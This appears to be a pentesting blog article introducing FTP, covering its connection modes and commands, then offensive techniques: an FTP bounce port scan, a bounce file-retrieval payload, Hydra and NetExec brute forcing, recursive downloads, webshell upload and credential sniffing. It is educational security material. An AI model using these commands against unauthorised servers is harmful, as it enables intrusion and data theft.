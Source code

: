 ```yaml
---
lang: en
title: "Intro to FTP"
summary: “This article introduces FTP (File Transfer Protocol), a client-server protocol used for file transfers over a network. It explains FTP’s architecture, communication channels, commands and security risks.”
date: 2024-11-14
tag:
  - Cybersecurity
  - Pentesting
  - FTP
---
```


FTP (File Transfer Protocol) is one of the **oldest and most widely** used protocols for **transferring files** between computers. While it provides a simple way to move data, its default configuration lacks security, making it a common target for attackers. In this article, we’ll cover the basics of FTP, its **communication modes**, **essential commands**, and **common misconfigurations** that could be exploited. Whether you're a cybersecurity enthusiast or a penetration tester, understanding FTP is crucial for securing or assessing network environments.

<!-- more -->

This protocol has a client-server architecture using a server to serve files that can be accessed by N clients. By default, **the information is transmitted in plain text**, although there is an encrypted version of it called SFTP (Secure File Transfer Protocol).


Although there are implementations with a graphical interface, in this article we will make use of the FTP command line tool, which gives us a lot of flexibility when working with the protocol. In later articles we will explore the main client and server implementations, although in this one we will focus on explaining the basic concepts of the protocol, how to work with it and how to take advantage of some misconfigurations.

## Theory

### Communication channels

For FTP to work, two communication channels are required, one for sending commands and the other for data.

### Connection modes

#### Active

This is the default connection mode for FTP connections, in which two events occur:

- A command channel is established in the connection to the server between the server's command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
- Once the data connection is established, an attempt is made to open a connection from the server's data port (20 by default) to port P+1 on the client.

!!! note

    Active mode may present problems with client firewalls because it attempts to create a direct connection to a client-side port, which may be blocked by certain firewalls.

#### Passive

This mode arises as a solution to the problem of client firewalls, here the workflow is modified so that both the data connection and the client connection are initiated from the client, we can break it down into two events.

- A command channel is established on the server connection between the server command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
- Once the data connection is established a data connection is opened from port P+1 on the client to a port on the server data channel, this process is repeated for each file transfer occupying a different server port on each connection (this can be configured in most server side software) .

!!! note

    Passive mode requires the opening of a range of ports in the firewall, this can generate some security problems if this port opening is not configured correctly.

## FTP commands

```bash
CWD -> Changes the current directory to the specified one
DELE -> Deletes the specified file
EPRT -> Establish a socket for data connection
LIST -> List the files in the current directory
PASV -> Change mode to passive mode
PWD -> Displays the current directory 
RETR -> Download the specified file
```

## Anonymous login

There is an FTP configuration that allows the use of a login to share files for any user that requires it, in case this configuration is enabled a user could use anonymous as login name and any password to access the server as a user with low privileges, although in certain cases this can lead to compromise the entire system.

## FTP Bounce port scan

It is possible to abuse the PORT and ERPT commands to perform an open port scan via an FTP server.

### Nmap

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
```

### Hand-made

Once connected we can perform the port scan using the PORT and ERPT commands followed by a LIST command.

Here is an example for scanning port 9091 on host 10.10.10.14

```bash
PORT 10.10.10.14.14.0.9091
EPRT |2|10.10.10.14|9091||

LIST
```

If the response is a 150 the port is open, in case of receiving a 415 the port is closed.

## FTP Bounce file get

This attack allows an attacker to download files from an FTP server not accessible by the attacker, but which can be reached by an FTP server accessible by the attacker.

<figure markdown="span">
    ![Net Diagram](../../assets/posts/2024/11/14/net_diagram.png)
  <figcaption>Net Diagram</figcaption>
</figure>

This attack has the following prerequisites:

- Valid credentials for External FTP.
- Valid credentials for Internal FTP.
- Write access for External FTP.
- PORT command execution permissions on both External and Internal.

First of all we will deploy an FTP server on the attacker's machine, this server has to support passive mode.

Once deployed we will open a passive connection with the PASV command and tell it to save it with STOR output.ext .

Now we will create a file with the commands we want to launch against the second server, an example would be the following:

```bash
user ftp # User for the internal server
pass password # Password for the internal server
cwd /DIRECTORY
type i
port F,F,F,F,F,F,X,X #Our passive port
retr file.ext
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
```

Now we upload it with PUT and from the external server we execute the following commands:

```bash
put payload
quote "port C,C,C,C,C,0,21" # IP of internal server
quote "retr payload"
```

After this we will have the file.ext file on our server as output.ext

## Brute force attack

Many FTP servers do not have protection against brute force attacks. Having a user or a list of them we can carry out a brute force attack with different credentials obtained from various sources, although there are several tools for this purpose, the two most common are NetExec and Hydra.  

### NetExec

```bash
nxc ftp IP -u userfile -p passwordfile
```

### Hydra

```bash
hydra -L userfile -P passwordfile ftp://IP
```

## Full content backup

This is not an attack per se, but it is quite useful, as it allows us to download all accessible files from the server using a single command.

```bash
wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
```

## FTP file upload to RCE

In certain circumstances, permission to upload files to the server along with other misconfigurations can lead to obtaining remote execution of commands on the server.

The most common case is the possibility of uploading files to be served by a web server, where we could upload a webshell interpretable by the server to obtain command execution.

## Sniffing credentials

Since FTP works by default in plain text, it is possible for an attacker on the same network to use a sniffer and capture both the credentials and the FTP conversation.

In the next article of this series on FTP we will discuss common implementation errors and some known vulnerabilities of some implementations of the protocol.

---
